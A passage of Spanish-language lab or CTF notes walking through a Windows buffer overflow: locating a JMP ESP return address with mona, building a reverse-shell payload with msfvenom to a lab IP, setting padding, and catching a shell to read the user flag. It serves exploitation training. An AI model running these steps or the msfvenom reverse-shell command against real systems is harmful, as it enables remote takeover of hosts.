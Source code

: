 Lo eliminamos del exploit
![[Pasted image 20240725124948.png]]

Y ahora ejectamos el siguiente comandos para buscar el `pointer`
```
!mona jmp -r esp -cpb "\x00\x0a"
```
![[Pasted image 20240725125422.png]]

Ahora con el numero obtenido buscaremos el valor de `JMP ESP` el cual nos dara el valor `retn` buscamos
```
0x080414c3
```
![[Pasted image 20240725125714.png]]

Y lo tenemos por aqui
```
080414C3
```
![[Pasted image 20240725130731.png]]

Ya lo tenemos todo para preparar el payload, primero ejecutamos msfvenom
```Bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.0.206 LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
```
![[Pasted image 20240725130258.png]]

Lo copiamos y pegamos en nuestro exploit
![[Pasted image 20240725130429.png]]

Y cambiamos las siguientes variables, donde la variable retn es el número del jmp `080414C3`  pero al revés; y el padding significa el conjunto de datos adicionales que se añaden a la estructura de datos.
```Python
retn = "\xC3\x14\x04\x08"
padding = "\x90" * 16
```
![[Pasted image 20240725131029.png]]

Y ya tendriamos el paylaod preparado
![[Pasted image 20240725131135.png]]

Ahora ejecutamos el payload y ya obtendriamos la reverse shell
![[Pasted image 20240725131326.png]]
![[Pasted image 20240725131345.png]]

Obtención de la bandera de user
![[Pasted image 20240725131952.png]]
